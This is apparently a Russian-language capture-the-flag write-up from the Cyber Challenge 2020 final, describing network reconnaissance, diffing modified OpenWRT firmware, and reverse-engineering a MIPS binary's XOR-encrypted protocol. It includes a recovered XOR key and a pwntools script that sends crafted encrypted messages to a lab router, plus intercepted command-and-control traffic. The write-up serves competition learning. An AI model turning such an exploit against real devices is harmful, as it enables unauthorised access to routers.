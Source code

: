 # Кибервызов 2020
Решение для финала Кибервызов 2020
От команды `картинг по ру` - @kinjalik @djalilkhisaliev @gavt45 @gleb270

# Первичное исследование сетевой инфраструктуры

Подключились по SSH по выданным данным для входа. 
Запустили анализ с помощью `nmap` и `arp` и нашли 3 ip с интересными портами и проанализировав дампы трафика, определили, что роутеры находятся по адресам: 10.0.8.12 , 10.0.8.13 , 10.0.8.14 , а атакующий находится по адресу 192.168.1.2

# Обратная разработка сетевых протоколов

Чтобы найти уязвимые файлы, мы скачали оригинальный образ прошивок OpenWRT и с помощью `diff` нашли отличающиеся файлы

## 1. MIPS

Файл находился по пути `/usr/bin/sign`
 
Так же 10.0.8.13 биндится на 8888, тем самым создается подключение
192.168.1.2 сюда создается коннект c 10.0.8.13 на порт 5555
Найден ключ xor: 

03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67 #original

67 23 49 68 1e c7 37 f1 2d 10 c4 be 14 a7 22 03

3323001a 7e2a
3323001a 06173b34

29152c15 7e2a
29152c15 32 19 31 29

### Код для эксплойта:
```
def xor(s1,s2):
        return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(s1,s2))

from pwn import *

r = remote('10.0.8.13', 8888)

k = unhexlify('03 22 a7 14 be c4 10 2d f1 37 c7 1e 68 49 23 67'.replace(' ',''))

IV = b'\x33\x23\x00\x1a'
print(IV)
init_msg = IV+b'\x7e\x2a'+IV+b'\x01\x01\x01\x01'
our_part = IV+b'\x01\x01\x01\x01'
print(init_msg)
enc_init_msg = xor(init_msg, k)
info(init_msg)
info(enc_init_msg)

r.send(enc_init_msg)

their_part = xor(r.recv(), k)

sess_key = our_part+their_part

info("Enc out: "+str(xor('\xde\xad',sess_key)[:2]))

r.send(xor('\x55\xfa',sess_key)[:2])

print(xor(r.recv(), sess_key))

```



Перехваченнный зашифрованный траффик на C&C сервер. Расшифровывается ксором .
2006391a293d1101072b3b1d2f0031172e38012520043a0d21130a3c1c221b311d3934251c15043e3012323f1b150603343105003e100e092a29302e0a263e1e203b1d26261a323a32022018291523080529291f0921193c3b0006161b072c3e241a32281b213f27210d03222d0034102d242a0f2d0330360300330f263d07200a1504323a3d0c2619082a3f0829083b392d0b0c060920191904380529162204282a39032f1d03362b3a34172415371b313a171a0f3a1203261c2c1016022e133e081b0e313e10131c050c1e3f20313c3c0a03182332091d1e0315003521040836 

should_be_not_return_1 сравнивает dect_buffer с CE FA
Первые два байта дешифрованного сообщения должны быть CE и FA. 

ОПИСАНИЕ:

Открыли файл  sign 
![](https://i.imgur.com/EHWi1C2.png) #main
![](https://i.imgur.com/FkXFzRr.png) #should_not_return_1
![](https://i.imgur.com/yMpvIbA.png) #parse_command
